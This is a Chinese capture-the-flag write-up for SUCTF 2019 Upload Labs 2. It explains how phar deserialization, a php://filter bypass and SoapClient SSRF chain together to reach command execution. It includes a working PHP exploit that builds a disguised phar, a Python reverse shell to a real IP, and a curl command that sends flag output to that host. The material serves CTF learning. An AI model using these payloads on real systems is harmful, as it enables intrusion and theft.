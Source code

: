 # \[SUCTF 2019]Upload Labs 2

## \[SUCTF 2019]Upload Labs 2

## 考点

* 代码审计
* phar反序列化
* PHP SoapClient 反序列化触发SSRF
* 使用phar://缺不能以phar开头时，可以使用`php://filter/resource=phar://`
* finfo\_file() 结合 php://filter 触发 phar 反序列化

## wp

有两个功能，上传图片和查看图片信息。

给了源码，和修改后的admin.php，要进行审计

index. php是文件上传功能，白名单限制。func.php是文件读取功能，返回文件的MIME。class.php定义了File类和Check类。至此基本判断是phar反序列化。

首先是index.php，说明了上传路径为 `upload/md5($_SERVER["REMOTE_ADDR"])`，然后采用白名单的方式限制后缀和content-type，最后调用Check类的check函数对上传文件内容做一个检查，不允许`<?`存在。对于func.php，是获取上传的文件，采用黑名单的方式封禁了很多PHP伪协议。然后调用自定义的File类来获取文件

然后找获取flag的地方，在admin.php的Ad类的`__destruct()`使用了system函数，也就是说要<mark style="background-color:orange;">对Ad类进行实例化，或者反序列化</mark>。

```php
class Ad{
    public $cmd;
    public $clazz;
    public $func1;
    public $func2;
    public $func3;
    public $instance;
    public $arg1;
    public $arg2;
    public $arg3;
    function __construct($cmd, $clazz, $func1, $func2, $func3, $arg1, $arg2, $arg3){
        $this->cmd = $cmd;
        $this->clazz = $clazz;
        $this->func1 = $func1;
        $this->func2 = $func2;
        $this->func3 = $func3;
        $this->arg1 = $arg1;
        $this->arg2 = $arg2;
        $this->arg3 = $arg3;
    }
    function check(){
        $reflect = new ReflectionClass($this->clazz);
        $this->instance = $reflect->newInstanceArgs();
        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func1);
        $reflectionMethod->invoke($this->instance, $this->arg1);
        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func2);
        $reflectionMethod->invoke($this->instance, $this->arg2);
        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func3);
        $reflectionMethod->invoke($this->instance, $this->arg3);
    }
    function __destruct(){
        system($this->cmd);
    }
```

接着看，在admin.php中如果是本地访问，并且POST参数admin，就可以实例化Ad类，并且Ad类的参数都可以用POST提交。

```php
if($_SERVER['REMOTE_ADDR'] == '127.0.0.1'){
    if(isset($_POST['admin'])){
        $cmd = $_POST['cmd'];

        $clazz = $_POST['clazz'];
        $func1 = $_POST['func1'];
        $func2 = $_POST['func2'];
        $func3 = $_POST['func3'];
        $arg1 = $_POST['arg1'];
        $arg2 = $_POST['arg2'];
        $arg3 = $_POST['arg3'];
        $admin = new Ad($cmd, $clazz, $func1, $func2, $func3, $arg1, $arg2, $arg3);
        $admin->check();
    }
}
```

但是Ad类的`check()`函数的含义是什么？首先通过反射获取`$this->clazz`类，然后构造一个没有属性的`$this->clazz`类的实例化对象，最后分别获取`$this->clazz`类的`$this->func1`，`$this->func2`，`$this->func3`函数，并分别把`$this->arg1`，`$this->arg2`，`$this->arg3`传入执行。通过反射创建的类大概如下，这里类的方法和其参数都可以相同。

```php
Class clazz{
    function func1($arg1){
        ...
    }
    function func2($arg2){
        ...
    }
    function func3($arg3){
        ...
    }
}
```

这里可以使用<mark style="background-color:red;">SplStack类和它的push方法</mark>。POST数据

```
admin=1&cmd=curl "http://121.5.66.238:20010/?a=`/readflag`"&clazz=SplStack&func1=push&func2=push&func3=push&arg1=123456&arg2=123456&arg3=123456
```

要想让 admin.php 去实例化Ad类，就要让 REMOTE\_ADDR 为 127.0.0.1，即本地访问，接下来的问题就是如何去实现SSRF

而在反序列化里面可以实现SSRF的是SoapClient类，接下来就要找触发SoapClient 的位置。<mark style="background-color:orange;">可以看到在 File 类中的 \_\_wakeup() 存在一个反射，那就可通过这个反射，来获取SoapClient对象，然后调用SoapClient对象的check函数，这个check函数SoapClien中并不存在，就可以触发SoapClient的SSRF</mark>

```php
class File{
    public $file_name;
    public $type;
    public $func = "Check";
    function __construct($file_name){
        $this->file_name = $file_name;
    }
    function __wakeup(){
        $class = new ReflectionClass($this->func);
        $a = $class->newInstanceArgs($this->file_name);
        $a->check();
    }
    function getMIME(){
        $finfo = finfo_open(FILEINFO_MIME_TYPE);
        $this->type = finfo_file($finfo, $this->file_name);
        finfo_close($finfo);
    }
    function __toString(){
        return $this->type;
    }
}
```

接下来就是如何让 File() 类反序列化。finfo\_file可以触发phar反序列化，但是在 fuc.php 不能传 phar:// 开头的字符串。<mark style="background-color:green;">在PHP中，php://filter/resource这个伪协议可以触发phar反序列化，所以在 fuc.php 不能传 phar:// 开头的字符串，可以使用 php://filter/resource=phar://......进行绕过</mark>

这里直接放反弹shell的exp

```php
<?php

class File{
	public $file_name;
	public $func="SoapClient";
	public function __construct(){
		$payload='admin=1&cmd=python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("121.5.66.238",20010));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'&clazz=SplStack&func1=push&func2=push&func3=push&arg1=123456&arg2=123456&arg3=123456';
		$this->file_name=[null,array('location'=>'http://127.0.0.1/admin.php','user_agent'=>"xxx\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: ".strlen($payload)."\r\n\r\n".$payload,'uri'=>'abc')];
	}	
}
$a=new File();
@unlink("phar.phar");
$phar=new Phar("phar.phar");
$phar->startBuffering(); 
$phar->setStub('GIF89a'.'<script language="php">__HALT_COMPILER();</script>');
$phar->setMetadata($a); 
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
?>
```

使用上面的exp生成phar，改名为1.gif，再上传。在vps监听端口，在 fuc.php 中输入`php://filter/resource=phar://upload/cc551ab005b2e60fbdc88de809b2c4b1/b1467d0a5330091b554e2d892f7e8308.gif`，就可以反弹shell了

![](<../../.gitbook/assets/image (14) (1).png>)

![](<../../.gitbook/assets/image (34).png>)

或者是cmd改成``curl "http://121.5.66.238:20010/?a=`/readflag`"``直接获取flag

![](<../../.gitbook/assets/image (24) (1).png>)

## 小结

1. 原题预期解是MySQL 客户端任意文件读取（MySQL Client Attack），改代码后简化了很多
2. [SUCTF 2019 Upload labs 2 踩坑记录](https://www.cnblogs.com/peri0d/p/12465523.html)
3. [https://www.cnblogs.com/tr1ple/p/11394464.html](https://www.cnblogs.com/tr1ple/p/11394464.html)
